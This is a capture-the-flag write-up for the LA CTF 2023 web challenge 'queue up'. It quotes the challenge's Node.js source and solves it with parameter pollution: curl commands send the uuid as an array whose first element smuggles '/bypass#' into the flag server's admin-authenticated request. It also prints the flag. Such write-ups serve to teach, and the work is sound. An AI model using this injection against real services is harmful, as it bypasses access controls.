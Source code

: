 ```yaml
---
Title: queue up - LA CTF 2023
Date: 2023-02-15T00:00:00+05:30
Tags: [web, lactf23-writeups, ctf, writeup, parameter-pollution,]
Categories: [lactf23-writeups,All Writeups]
Authors: [Rohit]

twemoji: true
---
```


#### tl;dr

- Find the flag server `qu-flag.lac.tf`
- send a request to `https://qu-flag.lac.tf` with the `uuid` as an array and its first element as `{uuid}/bypass#`
- Visit the server with that uuid as a cookie

<!--more-->

## Description

I've put the flag on a web server, but due to the high load, I've had to put a virtual queue in front of it. Just wait your turn patiently, ok? You'll get the flag eventually.

Disclaimer: Average wait time is 61 days.

- **Author** : burturt
- **Category** : Web
- **Points** : 483
- **Solves** : 34


## Solution

### Understanding the challenge

So here we are put on a queue and every 5 minutes one user is given the flag. Now we are so back in the queue that it's impossible to get the flag by waiting.

There are two servers the `flagserver` and `queue` server.

Source codes: [flagserver](files/flagserver/flagserver.js), [queue](files/queue/queue.js)

Here we'll only get the flag when `user.served` is `true`. 

```js
else if (user.served === true) {
    res.render('flagredirect', {uuid: uuid, flagserverurl: process.env.FLAG_SERVER_URL});
    return;
}
```

But for that to happen we have to wait for 100 days. Since we can only solve this challenge in the next LA CTF we can't wait for 100 days. 

So another way is there is an `/api/:uuid/bypass`. It can only be accessed by the admin. We also have `/api/:uuid/status` which will check if `user.served` is true. Also only accessible by admin.

```js
app.get("/api/:uuid/status", async (req, res) => {
    try {
        const user = await Queue.findByPk(req.params.uuid);
        res.send(user.served);

    } catch {
        res.send("false");
    }

});

app.get("/api/:uuid/bypass", async (req, res) => {
    try {
        const user = await Queue.findByPk(req.params.uuid);
        if (user === undefined) {
            res.send("uuid not found");
        } else {
            await user.update({served: true});
            res.send("bypassed");
        }
    } catch {
        res.send("invalid uuid");
    }

});
```

Admin's access is checked using

```js
const adminOnly = function (req, res, next) {
    const authHeader = req.get("Authorization");
    if (authHeader === `Bearer ${process.env.ADMIN_SECRET}`) {
        next();
    } else {
        res.status(403);
        res.send("Either this page doesn't exist or you don't have permission to view this page.");
    }
}
```

Then in the flag server's code, we can send the uuid, it has some checks and it will then check through `/api/:uuid/status` whether `user.served` is true or not. If it is true then it will send the flag. But we don't have the URL (that's what I thought). We will only get a page with that URL if `user.served` is true.

```js
app.post("/", async function (req, res) {
    let uuid;
    try {
        uuid = req.body.uuid;
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }

    if (uuid.length != 36) {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }
    for (const c of uuid) {
        if (!/[-a-f0-9]/.test(c)) {
            res.redirect(process.env.QUEUE_SERVER_URL);
            return;
        }
    }


    const requestUrl = `http://queue:${process.env.QUEUE_SERVER_PORT}/api/${uuid}/status`;
    try {
        const result = await (await fetch(requestUrl, {
            headers: new Headers({
                'Authorization': 'Bearer ' + process.env.ADMIN_SECRET
            })
        })).text();
        if (result === "true") {
            console.log("Gave flag to UUID " + uuid);
            res.send(process.env.FLAG);
        } else {
            res.redirect(process.env.QUEUE_SERVER_URL);
        }
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
    }

});
```

### Finding something which is given

So my first task was to find the flag server's URL. I first tried with [crt.sh](https://crt.sh/) but it didn't work. Then I started to just try different combinations manually.

I tried many combinations and found `qu-flag.lac.tf` which was the flag server's URL. Only for us to later find out that it was given in the challenge description :cry:. We didn't find it because a get request to the flag server's URL would only redirect us to the queue server's URL. So what we were seeing on the browser was just the queue server's URL.

### Parameter pollution

So there are two checks

```js
if (uuid.length != 36) {
    res.redirect(process.env.QUEUE_SERVER_URL);
    return;
}
for (const c of uuid) {
    if (!/[-a-f0-9]/.test(c)) {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }
}
```

But they don't check whether the `uuid` is a string or not. So what we can do is send `uuid` as an array. We can send it like `uuid[]=payload`. But we have to send exactly 36 of them. we will put a `#` at the last of the first element so when `toString` is called rest is ignored.

The second check will also pass as the regex will only check if any of the characters is present in the string, not that all the characters of the string are from this specified set

We can give the first as `uuid[]={uuid}/bypass#` and the rest 35 as `uuid[]=a`. This will make served true for this user and then we can send another request to the flag server with the same uuid and we will get the flag.

```bash
curl -X POST https://qu-flag.lac.tf/ -d "uuid[]=4502e7c2-c987-42f7-8a10-95a06c588573/bypass#&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a"

curl -X POST https://qu-flag.lac.tf/ -d "uuid=4502e7c2-c987-42f7-8a10-95a06c588573"
```

**Flag**: `lactf{Byp455in_7he_Qu3u3}`